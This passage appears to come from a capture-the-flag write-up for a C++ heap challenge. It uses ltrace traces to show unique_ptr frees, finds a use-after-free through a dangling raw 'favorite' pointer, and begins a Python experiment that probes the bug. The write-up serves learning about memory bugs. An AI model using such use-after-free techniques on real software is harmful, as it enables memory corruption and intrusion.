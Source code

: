 In this case, `tmp` _isn't_ freed after breaking from `case 0`, which I can demonstrate readily with `ltrace`:

```sh
$ ltrace ./chall 2>&1 | grep -e malloc -e free -e fwrite
malloc(72704)                                    = 0x7fffd2069010
fwrite("choice: ", 1, 8, 0x7fcd0e4ea600)         = 8
0
fwrite("idx: ", 1, 5, 0x7fcd0e4ea600)            = 5
0
fwrite("name: ", 1, 6, 0x7fcd0e4ea600)           = 6
hiii
malloc(40)                                       = 0x7fffd207be40
malloc(48)                                       = 0x7fffd207be70
```

Over here, I've allocated a `unique_ptr<Food>` to `foods[0]`. `std::move` effectively "transfers ownership"<sup>2</sup> of the smart pointer to `foods[]`. If I repeat that allocation,

```c++
fwrite("choice: ", 1, 8, 0x7fcd0e4ea600)         = 8
0
fwrite("idx: ", 1, 5, 0x7fcd0e4ea600)            = 5
0
fwrite("name: ", 1, 6, 0x7fcd0e4ea600)           = 6
heyagain
malloc(40)                                       = 0x7fffd207beb0
free(0x7fffd207be40)                             = <void>
fwrite("choice: ", 1, 8, 0x7fcd0e4ea600)         = 8
```

 A `free()` _does_ happen this time, because when a _new_ `unique_ptr` is assigned to `foods[0]`, the pointer that already existed at `foods[0]` understands that there are no references left to it (that it has gone out of scope), causing it to delete itself.

At this point, I get a flash of insight as I discover what the main bug is: `favorite`.

```c++
case 1: {
  size_t idx = get_idx();
  favorite = foods[idx].get();
  break;
}
```

`favorite` is a normal "dumb" pointer. A `unique_ptr` from `foods[]` can't keep track of `favorites`, and when the `unique_ptr` associated with `favorites` is freed, a dangling pointer is left in `favorites`, causing a **use after free**.

### Testing the UAF

I start with a little bit of experimentation:

```python
alloc(0, b'a'*0x47)
alloc(1, b'b'*0x47)
alloc(2, b'c'*0x47)
fav(2)
alloc(2, b'A'*0x17)
alloc(1, b'B'*0x17)
alloc(0, b'C'*0x17)
printName()
```
